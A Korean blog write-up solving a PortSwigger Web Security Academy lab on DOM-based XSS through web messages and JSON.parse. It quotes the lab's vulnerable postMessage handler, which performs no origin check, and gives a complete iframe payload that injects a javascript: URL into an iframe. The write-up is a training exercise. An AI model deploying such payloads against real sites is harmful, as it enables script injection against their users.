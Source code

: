 ```yaml
---
layout: post
title: "Burp Academy-Dom 관련 취약점: DOM XSS using web messages and JSON.parse"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Dom 관련 취약점, XSS]
toc: true
last_modified_at: 2024-11-05 09:33:00 +0900
---
```


# 개요
- Dom based 타입의 XSS 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse
- Dom 취약점 중에서 웹메세지 설명페이지: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source
- 난이도: PRACTITIONER (보통)


# 문제 
- 이 랩에는 웹 메시지를 JSON 형식으로 파싱하고 있다. 
- 랩을 풀려면 exploit 서버에서 HTML페이지를 만들어서 print함수가 호출되도록 하라. 

```
This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.
```

# 풀이 

1. 랩을 살펴본다. Top페이지를 보면 다음과 같은 웹 메세지에 대한 이벤트 핸들러를 등록하는 코드가 있다. 조금 살펴보면 취약한 코드를 발견할 수 있다. 

- 오리진 체크를 하고 있지 않다. 따라서 임의의 사이트(공격자의 사이트)에서 웹 메세지를 보낼 수 있다. 
- 웹 메세지의 데이터를 그대로 JSON.parse의 파라메터로 넘겨주고 있다. 
- JSON 오브젝트에 있는 `type` 속성에 따라 switch 문에서 분기된다. `type`의 값이 "load-channel"이면,  ACMEplayer.element.src 에 JSON 오브젝트의 `url`값이 삽입된다. 

```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

2. 위의 코드와 분석결과를 참고하여 victim에서 전송할 JSON 오브젝트를 만든다. 다음과 같이 `type`과 `url`속성을 가진 JSON 오브젝트를 만든다. 

```json
{
    "type": "load-channel",
    "url": "javascript:print()"
}
```

3. 위의 오브젝트가 iframe 태그의 onload이벤트가 발동되면 전송되도록 페이로드를 완성한다. 다음과 같다. 

```html
<iframe src=https://0a5100e3045f3b0882775c120022002e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

4. exploit서버에서 페이로드를 저장하고 "Deliver to Victim"버튼을 눌러서 전송하면 잠시 뒤 랩이 풀렸다는 메세지가 표시된다. 

![](/images/burp-academy-dom-based-3-success.png)